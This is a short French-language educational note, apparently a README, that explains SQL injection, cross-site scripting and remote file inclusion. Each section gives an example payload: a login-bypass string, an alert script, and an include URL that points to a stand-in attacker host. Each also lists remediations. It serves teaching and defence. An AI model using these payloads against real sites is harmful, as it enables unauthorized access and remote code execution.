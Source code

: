 # Low - Injection SQL (SQLi)
## Définition:
L'injection SQL permet à un attaquant d'insérer (ou "injecter") du code SQL malveillant dans une requête SQL. Cela peut permettre à l'attaquant de manipuler des bases de données pour exfiltrer des informations sensibles, modifier des données ou même prendre le contrôle de la base de données.
## Comment l'utiliser:
Si tu as une page qui prend des entrées utilisateur, comme un champ de connexion, tu peux essayer d'injecter une commande SQL malveillante. Par exemple, dans un champ de "username", tu peux essayer: ```' OR 1=1 --```
Cette chaîne contourne la vérification du mot de passe en rendant la condition toujours vraie.
## Solution :
- Utiliser des requêtes préparées avec des paramètres liés.
- Valider et filtrer toutes les entrées des utilisateurs.
- Utiliser des comptes avec des privilèges limités sur la base de données.

# Medium - Cross-Site Scripting (XSS)
## Définition:
Le Cross-Site Scripting (XSS) permet à un attaquant d'injecter du code JavaScript malveillant dans une page web, qui sera ensuite exécuté dans le navigateur des utilisateurs lorsqu'ils consultent la page.
## Exploitation:
Par exemple, un attaquant peut injecter ce code dans un champ de commentaire vulnérable sur un site web: ```<script>alert('XSS')</script>```
Cela affichera une alerte dans le navigateur de la victime.
## Solution :
- Encoder toutes les sorties des données utilisateurs (par exemple, utiliser htmlspecialchars() en PHP).
- Mettre en place une politique de sécurité du contenu (CSP) pour restreindre les scripts non autorisés.
- Valider et assainir les entrées utilisateur, notamment les champs de formulaire.

# High - Remote File Inclusion (RFI)
## Définition:
L'attaque Remote File Inclusion (RFI) permet à un attaquant d'inclure un fichier malveillant depuis une URL externe. Si un site permet l'inclusion de fichiers sans validation, un attaquant peut injecter un fichier PHP malveillant, entraînant souvent l'exécution de code sur le serveur.
## Exploitation:
Par exemple, si un site web utilise un paramètre comme include.php?file=page.txt, un attaquant pourrait injecter : ```http://attacker.com/malicious_file.php```
Cela chargerait un fichier PHP malveillant depuis un serveur externe.
## Solution :
- Désactiver l'option allow_url_include dans PHP.
- N'accepter que des fichiers locaux pour l'inclusion et les valider.
- Utiliser une liste blanche de fichiers autorisés à inclure.

